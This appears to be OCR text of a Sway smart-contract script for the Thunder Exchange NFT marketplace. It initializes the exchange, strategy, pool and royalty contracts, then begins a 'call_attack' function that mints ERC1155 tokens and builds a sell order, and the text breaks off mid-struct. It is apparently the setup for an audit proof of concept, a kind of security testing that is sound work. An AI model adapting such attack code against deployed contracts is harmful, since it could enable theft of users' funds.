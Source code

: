 ```Sway
    //initialize all contracts 

    let thunder_exch = abi(ThunderExchange, thunder_exchange::CONTRACT_ID);
    thunder_exch.initialize();

    let asset_mngr = abi(AssetManager, asset_manager::CONTRACT_ID);
    asset_mngr.initialize();

    // required for initialize below contracts
    let exchange_contract_id = ContractId::from(thunder_exchange::CONTRACT_ID);

    let asset_manger_contract_id = ContractId::from(asset_manager::CONTRACT_ID);

    let fixed_strategy = abi(ExecutionStrategy, strategy_fixed_price_sale::CONTRACT_ID);
    fixed_strategy.initialize(exchange_contract_id);

    let execution_manager = abi(ExecutionManager, execution_manager::CONTRACT_ID);
    execution_manager.initialize();

    let royalty_manager = abi(RoyaltyManager, royalty_manager::CONTRACT_ID);
    royalty_manager.initialize();

    let pool = abi(Pool, pool::CONTRACT_ID);
    pool.initialize(exchange_contract_id, asset_manger_contract_id);

    let erc1155 = abi(Erc1155, erc1155::CONTRACT_ID);
    erc1155.constructor(Identity::ContractId(ContractId::this()));

    let execution_manager = abi(ExecutionManager, execution_manager::CONTRACT_ID);
    execution_manager.add_strategy(ContractId::from(strategy_fixed_price_sale::CONTRACT_ID));

    let asset_manager = abi(AssetManager, asset_manager::CONTRACT_ID);
    asset_manager.add_asset(AssetId::new(ContractId::from(erc1155::CONTRACT_ID), SubId::zero()));

    thunder_exch.set_execution_manager(ContractId::from(execution_manager::CONTRACT_ID));
    thunder_exch.set_asset_manager(ContractId::from(asset_manager::CONTRACT_ID));
    thunder_exch.set_royalty_manager(ContractId::from(royalty_manager::CONTRACT_ID));
}

fn call_attack() {
    let thunder_exchange = ContractId::from(thunder_exchange::CONTRACT_ID);
    let strategy = ContractId::from(strategy_fixed_price_sale::CONTRACT_ID);

    let user = abi(User, user::CONTRACT_ID);

    let erc1155 = abi(Erc1155, erc1155::CONTRACT_ID);
    let sub_id = 0x0000000000000000000000000000000000000000000000000000000000000001;

    erc1155.mint(Identity::ContractId(ContractId::from(user::CONTRACT_ID)), sub_id, 2);

    let payment_asset = AssetId::new(ContractId::from(erc1155::CONTRACT_ID), SubId::zero());
    let erc1155_asset = AssetId::new(ContractId::from(erc1155::CONTRACT_ID), sub_id);
    let erc1155_amount = 2;

    let maker_order = MakerOrderInput {
        side: Side::Sell,
        maker: Identity::ContractId(ContractId::from(user::CONTRACT_ID)),
        collection: ContractId::from(erc1155::CONTRACT_ID),
        token_id: sub_id,
        price: 1,
        amount: erc1155_amount,
        nonce: 1,
        strategy: strategy,
```